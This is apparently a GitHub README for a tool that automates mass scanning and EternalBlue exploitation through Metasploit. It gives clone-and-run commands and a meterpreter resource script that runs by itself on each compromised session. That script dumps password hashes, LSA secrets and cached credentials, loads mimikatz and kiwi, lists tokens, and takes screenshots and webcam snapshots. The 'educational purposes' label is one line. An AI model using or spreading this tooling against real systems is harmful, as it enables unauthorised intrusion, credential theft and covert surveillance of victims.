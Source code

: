 [![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)

## Table of content
- [About](#about) 
- [Requirements](#requirements)
- [Usage](#usage)
- [License](#license)
- [Contact Me](#contact-me)
- [Donate Me](#donate-me)

## About
The **eternalscanner** repo is made for educational purposes only. It uses `eternal_scanner` tool from [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) repo and parses the output from it to `Metasploit` to make the eternalblue exploit somehow *autonomously*.

## Requirements
- The **SUDO** power
- Requirements for [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) Tool 
    - netcat
    - masscan
    - metasploit-framework
    - wget (To Update Eternal Scanner Directly from github)
    - pip (for alternative install of python modules)
    - python-crypto (Dependency for Eternal Romance check)
    - python-impacket (Dependency for Eternal Romance check)
    - python-pyasn1-modules (Dependency for Eternal Romance check)

## Usage
[![forthebadge](https://forthebadge.com/images/badges/oooo-kill-em.svg)](https://forthebadge.com)
- $ `git clone git@github.com:nsa/eternalblue-scanner.git && cd eternalblue-scanner`
- $ `chmod +x eternalbash`
- $ `sudo bash eternalbash`

If any sessions were opened this scripts automatically runs the following **meterpreter** commands from the *`assets/nsa.rc`* file. If you don't want to use following commands, you can just simply change the commands from that **`nsa.rc`** file.

```
run post/windows/manage/priv_migrate
hashdump
load kiwi
creds_all
run post/windows/gather/lsa_secrets
run post/windows/gather/cachedump
load incognito
list_tokens -u
screenshot
webcam_list
webcan_snap -v false
load mimikatz
kerberos
background
```


## License
```
MIT License

Copyright (c) 2018 Mustafa Çalap

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

### Contact Me
If you have any questions about this repo, you may create an issue or just hit me that questions on twitter.
Author: **Mustafa ÇALAP** <br>
Website: [**calap.co**](https://calap.co) <br>
Twitter: [**mustafacalap**](https://twitter.com/mustafacalap)

### Donate Me
[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
- Bitcoin : 1MUSTkECBR1yr6Jbd5QjT9EXJXGgDaZieJ <br />
<img src="https://rlv.zcache.com/bitcoin_accepted_here_sticker-r148616b487084a369d4c15bf39055043_v9i40_8byvr_324.jpg" width="200px" height="200px">[![image](https://blog.calap.co/wp-content/uploads/2017/11/1MUST.png)](https://blog.calap.co/destek-olun)